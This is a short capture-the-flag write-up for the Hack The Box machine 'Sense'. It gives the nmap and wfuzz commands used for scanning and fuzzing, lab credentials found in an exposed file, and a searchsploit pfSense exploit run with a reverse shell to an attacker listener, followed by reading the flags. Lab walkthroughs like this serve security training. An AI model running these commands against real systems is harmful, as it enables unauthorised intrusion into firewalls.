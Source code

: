 # **Sense**

# scanning
```bash
furious 10.10.10.60

nmap -Sc -sV -n -Pn -p443,80  10.10.10.60 -oN targeted
```
![img1](img1.png)

# web

![img2](img2.png)

cat extensions.txt

```txt

txt
php
xml
```

## wfuzz
```bash
wfuzz -c --hc 403,404 -t 100 -w /usr/share/dirb/wordlists/common.txt -w extensions.txt https://10.10.10.60/FUZZFUZ2Z
```

![img3](img3.png)

wfuzz -c --hc 403,404 -t 300 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -w extensions.txt https://10.10.10.60/FUZZFUZ2Z
![1737.png](1737.png)

* https://10.10.10.60/changelog.txt
![1724.png](1724.png)


* https://10.10.10.60/system-users.txt
![1756.png](1756.png)

username: rohit
password: pfsense

# pfsense explotation

![1736.png](1736.png)

## searchsploit pfsense
![1743.png](1743.png)

```bash
searchsploit -m php/webapps/43560.py

python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.5 --lport 4444 --username rohit --password pfsense

nc -lvp 4444 # attacker machine
```
![1830.png](1830.png)

cat /home/rohit/user.txt
cat /root/root.txt
